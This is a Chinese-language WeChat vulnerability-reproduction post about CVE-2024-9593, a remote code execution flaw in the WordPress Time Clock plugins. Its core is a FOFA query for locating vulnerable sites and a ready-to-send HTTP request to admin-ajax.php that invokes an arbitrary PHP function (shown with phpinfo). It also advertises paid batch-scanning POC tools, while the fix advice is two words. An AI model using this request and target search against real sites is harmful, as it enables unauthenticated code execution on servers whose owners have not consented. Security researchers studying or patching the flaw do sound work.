 #  WordPress Time Clock插件存在远程代码执行漏洞CVE-2024-9593 附POC   
2024-11-8更新  南风漏洞复现文库   2024-11-08 20:36  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. WordPress Time Clock插件简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
WordPress Time Clock插件  
## 2.漏洞描述  
  
WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。WordPress plugin Time Clock plugin and Time Clock Pro 1.2.2版本及之前版本存在代码注入漏洞，该漏洞源于包含一个远程代码执行。  
  
CVE编号:CVE-2024-9593  
  
CNNVD编号:CNNVD-202410-1955  
  
CNVD编号:  
## 3.影响版本  
  
WordPress Time Clock插件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3bV3sSsUKbBxOClgmW87g703oiaorzCFhqVAeeRE52ndp6yL2Jahg4yV0E15gjjVMNusbsYDHojiazQ/640?wx_fmt=png&from=appmsg "null")  
  
WordPress Time Clock插件存在远程代码执行漏洞  
## 4.fofa查询语句  
  
body="/wp-content/plugins/time-clock/" || body="/wp-content/plugins/time-clock-pro/"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/wp-admin/admin-ajax.php?action=etimeclockwp_load_function  
  
漏洞数据包：  
```
POST /wp-admin/admin-ajax.php?action=etimeclockwp_load_function HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
Content-Length: 16
Content-Type: application/x-www-form-urlencoded

function=phpinfo
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bV3sSsUKbBxOClgmW87g707N1BHmva6spxPPpibBiayjLmaL2siacIDnXjzsEFAjKfcFSfibQqUWGBCA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bV3sSsUKbBxOClgmW87g701kZsFxqHpzPN2DAvNl7b6IZK5mvCndQe4XzqxWrzgsYYP9oibXuPqJA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bV3sSsUKbBxOClgmW87g7075biaeWeZP2q0XnwYC96r4D2iaqxrZRHnOiaU1XcPvfRoCaDxUZaGxGAQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bV3sSsUKbBxOClgmW87g70nbxjCP2ouREuUQuuOLn4kqv4vaN8nvVg7kBXeIcZF9egYkQgtibXndQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bV3sSsUKbBxOClgmW87g70bjnltqJQ5CibeKyfFibvfzw9wXQXVZaRJnH8wPsv2CqGzhmMydJ7VD2g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bV3sSsUKbBxOClgmW87g70SRcVXRTSqQg9SyJW8NPnY8KvcObXH5XGZJ8V73BE7ray5SaXVNDI7Q/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
[用友U8 Cloud uapbd.refdef.query接口存在SQL注入漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487712&idx=1&sn=c689a918835d8fd979a54c56110824f5&chksm=974b9de7a03c14f149999e411d7abaf6d9f1865f1e575e70aa32983a0d8a2a4b850672eb89b5&scene=21#wechat_redirect)  
  
  
[东胜物流软件AttributeAdapter.aspx接口存在SQL注入漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487698&idx=1&sn=7b6ffc442157b482856dc14161c6639f&chksm=974b9dd5a03c14c3cf5c949514fab1b629d55adfee56ab6ddd39aa3b5d572ab2e951276af74d&scene=21#wechat_redirect)  
  
  
